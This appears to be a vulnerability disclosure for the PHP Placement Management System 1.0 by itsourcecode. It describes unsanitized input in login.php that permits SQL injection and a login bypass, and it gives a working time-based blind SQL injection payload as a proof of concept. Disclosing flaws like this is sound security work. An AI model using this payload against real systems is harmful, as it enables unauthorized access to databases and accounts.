 # Vendor

itsourcecode

# Product

Placement Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2021/04/Placement-Management-System-Project-In-PHP-Source-Code.zip

# Description

In the login.php file, the username field is not properly sanitized, which may lead to SQL injection vulnerabilities. Additionally, as long as there is any data in the users table of the database, it is possible to log in using a universal password.
<img width="666" alt="image" src="https://github.com/user-attachments/assets/e7249ef6-c1a3-4397-b1d2-468cba686414">
<img width="820" alt="image" src="https://github.com/user-attachments/assets/03e835ea-a664-4d50-8c3c-9f610049866e">

# Poc
```
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=admin@gmail.com#' AND (SELECT 3451 FROM (SELECT(SLEEP(5)))zIEe) AND 'NilV'='NilV&pass=123
```
